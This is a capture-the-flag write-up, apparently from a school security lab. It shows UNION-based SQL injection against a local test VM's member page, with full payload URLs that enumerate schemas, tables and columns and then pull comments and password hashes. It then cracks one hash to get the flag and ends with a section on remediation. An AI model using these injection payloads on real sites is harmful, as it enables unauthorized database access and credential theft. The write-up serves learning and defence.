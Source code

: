 # Users Page

__http://192.168.99.101/?page=member&id=1&Submit=Submit__

## Description
This page allow to find the members of the service.
## Form Outputs
The [page](#http://192.168.99.101/?page=member&id=42%20union%20select%20database(),%20schema_name%20from%20information_schema.schemata&Submit=Submit) return the list of members

```
ID: 42 union select database(), schema_name from information_schema.schemata 
First name: Member_Sql_Injection
Surname : Member_Brute_Force
ID: 42 union select database(), schema_name from information_schema.schemata 
First name: Member_Sql_Injection
Surname : Member_Sql_Injection
ID: 42 union select database(), schema_name from information_schema.schemata 
First name: Member_Sql_Injection
Surname : Member_guestbook
ID: 42 union select database(), schema_name from information_schema.schemata 
First name: Member_Sql_Injection
Surname : Member_images
ID: 42 union select database(), schema_name from information_schema.schemata 
First name: Member_Sql_Injection
Surname : Member_survey
```

The [page](#http://192.168.99.101/?page=member&id=42%20union%20select%20table_name,%20create_time%20from%20information_schema.tables%20where%20table_schema=database()&Submit=Submit) return the list of the tables

```
ID: 42 union select table_name, create_time from information_schema.tables where table_schema=database() 
First name: users
Surname : 2021-06-29 20:14:31
```

Let's check the column names [here](#http://192.168.99.101/?page=member&id=42%20union%20select%20column_name,%20column_type%20from%20information_schema.columns%20where%20table_schema=database()&Submit=Submit)

```
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: user_id
Surname : int(11)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: first_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: last_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: town
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: country
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: planet
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: Commentaire
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: countersign
Surname : varchar(255)
```
We've got the following columns ```user_id first_name last_name town country planet Commentaire countersign```

Then we get the personal data </br>
[select Commentaire, countersign from users](#http://192.168.99.101/?page=member&id=42%20union%20select%20Commentaire,%20countersign%20from%20users&Submit=Submit)
```
ID: 42 union select Commentaire, countersign from users 
First name: Je pense, donc je suis
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9
ID: 42 union select Commentaire, countersign from users 
First name: Aamu on iltaa viisaampi.
Surname : 60e9032c586fb422e2c16dee6286cf10
ID: 42 union select Commentaire, countersign from users 
First name: Dublin is a city of stories and secrets.
Surname : e083b24a01c483437bcf4a9eea7c1b4d
ID: 42 union select Commentaire, countersign from users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

## Flag
The flag we've got is [FortyTwo](#https://md5.gromweb.com/?md5=5ff9d0165b4f92b14994e5c685cdce28)
After converting FortyTwo to [sha256](#https://crypt-online.ru/crypts/sha256/) as in the instruction we get a flag.
```echo -n "FortyTwo" | shasum -a 256```

## Safety
The IT safety of the web in this case is compromised due to several security vulnerabilities, mainly SQL injection. 
The risk that the web is bringing includes unauthorized access to sensitive information such as member data and user credentials. The SQL injections allow an attacker to execute arbitrary queries on the database, which enables them to retrieve the list of members, tables, column names, and even personal data like comments and passwords.
These vulnerabilities can lead to potential data breaches, privacy violations, and unauthorized access to user accounts. It is crucial for the website administrators to address these security issues by implementing proper input validation and parameterized queries to prevent SQL injection attacks.
Additionally, storing passwords in plaintext or using weak encryption algorithms like SHA256/MD5 can also put user accounts at risk. It is essential to use strong and properly implemented hashing algorithms like bcrypt to securely store passwords.
Overall, the web's security is at high risk due to the presence of SQL injection vulnerabilities and weak password storage practices, which can lead to unauthorized access and potential harm to users' privacy and security.